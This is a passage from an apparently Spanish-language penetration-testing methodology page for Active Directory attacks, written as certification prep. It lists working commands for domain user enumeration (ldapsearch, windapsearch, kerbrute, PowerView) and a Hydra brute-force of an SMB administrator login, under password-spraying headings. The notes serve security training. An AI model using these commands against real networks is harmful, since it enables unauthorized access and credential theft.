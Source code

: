 ```shell
ldapsearch -h 10.10.10.100 -x -b "DC=DOMAIN,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

**windapsearch**

```shell
./windapsearch.py --dc-ip 10.10.10.100 -u "" -U
```

**kerbrute**

```shell
kerbrute userenum -d domain.local --dc 10.10.10.100 /opt/jsmith.txt 
```

### FUERZA BRUTA SERVICIOS/PROTOCOLOS

[](https://github.com/ant0dev/Methodology-eCPPT/blob/main/METODOLOGIA%20ATAQUE%20AD%20%26%20CERTIFICACION%20eCPPTv3.md#fuerza-bruta-serviciosprotocolos)

**HYDRA**

```shell
hydra -l administrator -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.2.16.158 smb2
```

### BREACHING AD

[](https://github.com/ant0dev/Methodology-eCPPT/blob/main/METODOLOGIA%20ATAQUE%20AD%20%26%20CERTIFICACION%20eCPPTv3.md#breaching-ad)

#### [[PASSWORD SPRAYING]]

[](https://github.com/ant0dev/Methodology-eCPPT/blob/main/METODOLOGIA%20ATAQUE%20AD%20%26%20CERTIFICACION%20eCPPTv3.md#password-spraying)

##### [[PASSWORD POLICIES ENUMERATION]]

[](https://github.com/ant0dev/Methodology-eCPPT/blob/main/METODOLOGIA%20ATAQUE%20AD%20%26%20CERTIFICACION%20eCPPTv3.md#password-policies-enumeration)

##### PASSWORD SPRAYING FROM WINDOWS

[](https://github.com/ant0dev/Methodology-eCPPT/blob/main/METODOLOGIA%20ATAQUE%20AD%20%26%20CERTIFICACION%20eCPPTv3.md#password-spraying-from-windows)

**Importar Modulo Powerview | Enumeracion de usuarios de forma Local**

```powershell
# Importamos el modulo
. .\PowerView.ps1

# Obtenemos todos los usuarios del sistema de forma local
Get-DomainUser | Select-Object -ExpandProperty cn | Out-File users.txt

# Tambien existe esta manera para enumerar los de /domain
net user /domain
```
